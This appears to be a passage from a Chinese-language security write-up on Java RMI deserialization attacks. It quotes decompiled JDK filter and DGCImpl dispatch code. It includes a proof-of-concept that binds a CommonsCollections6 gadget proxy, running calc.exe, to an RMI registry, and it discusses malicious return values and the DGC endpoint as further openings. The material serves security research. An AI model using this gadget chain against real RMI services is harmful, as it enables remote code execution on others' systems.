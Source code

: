```java
                    return var0.arrayLength() >= 0L && var0.arrayLength() > 1000000L ? Status.REJECTED : Status.UNDECIDED;
                }
            } else {
                return Status.UNDECIDED;
            }
        }
    }
```

哦豁，没得搞了。

```java
Object payload = CC6.getPayloadObject("calc.exe");
Map<String, Object> map = new HashMap<>();
map.put("whatever", payload);
Constructor constructor =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler invocationHandler  = (InvocationHandler) constructor.newInstance(Override.class, map);
Remote obj = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler);
registry.bind("evil", obj);
```

##### 远程函数返回值导致的反序列化

起一个RMI服务，然后返回值是恶意对象，利用就GG。但是这个攻击手段感觉其实没有什么用....

但是我们在测试的时候，发现`sun.rmi.server.UnicastServerRef#dispatch`除了会传入我们使用的远程对象，还会传入一个`DGC_Impl`的远程对象,这其实就是类似`Registry_Impl`的一个远程对象。

```java
 public void dispatch(Remote var1, RemoteCall var2, int var3, long var4) throws Exception {
        if (var4 != -669196253586618813L) {
            throw new SkeletonMismatchException("interface hash mismatch");
        } else {
            DGCImpl var6 = (DGCImpl)var1;
            ObjID[] var7;
            long var8;
            switch(var3) {
            case 0:
                VMID var39;
                boolean var41;
                try {
                    ObjectInput var42 = var2.getInputStream();
                    var7 = (ObjID[])((ObjID[])var42.readObject());
                    var8 = var42.readLong();
                    var39 = (VMID)var42.readObject();
                    var41 = var42.readBoolean();
                } catch (IOException var36) {
                    throw new UnmarshalException("error unmarshalling arguments", var36);
                } catch (ClassNotFoundException var37) {
                    throw new UnmarshalException("error unmarshalling arguments", var37);
                } finally {
                    var2.releaseInputStream();
                }

                var6.clean(var7, var8, var39, var41);

                try {
                    var2.getResultStream(true);
                    break;
                } catch (IOException var35) {
                    throw new MarshalException("error marshalling return", var35);
```